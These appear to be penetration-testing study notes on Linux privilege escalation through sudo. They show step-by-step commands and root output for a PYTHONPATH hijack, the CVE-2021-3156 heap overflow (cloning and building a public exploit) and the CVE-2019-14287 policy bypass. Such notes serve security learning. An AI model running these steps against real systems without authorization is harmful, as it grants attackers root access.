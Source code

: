 ### Check Permissions:
```bash
sudo -l
# (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

### Exploit:
```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
# uid=0(root) gid=0(root) groups=0(root)
```

---

# Sudo 

## 📌 What is Sudo?
- Runs commands with elevated privileges (usually root).
- Controlled via `/etc/sudoers`.
- Adds security by restricting access to sensitive commands.


## ⚙️ Sudoers File Example
```bash
cry0l1t3 ALL=(ALL) /usr/bin/id
```
- Grants user `cry0l1t3` permission to run `/usr/bin/id` as root.



## 🛠️ CVE-2021-3156 – Heap Overflow
- Affects sudo versions like 1.8.31 (Ubuntu 20.04).
- Exploit allows root shell via buffer overflow in `sudoedit`.

### Steps:
```bash
sudo -V
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156 && make
./sudo-hax-me-a-sandwich 1
# id → uid=0(root)
```


## 🚨 CVE-2019-14287 – Policy Bypass
- Affects sudo < 1.8.28.
- Exploit: `sudo -u#-1 command` runs as root.

### Example:
```bash
sudo -u#-1 id
# uid=0(root)
```

---
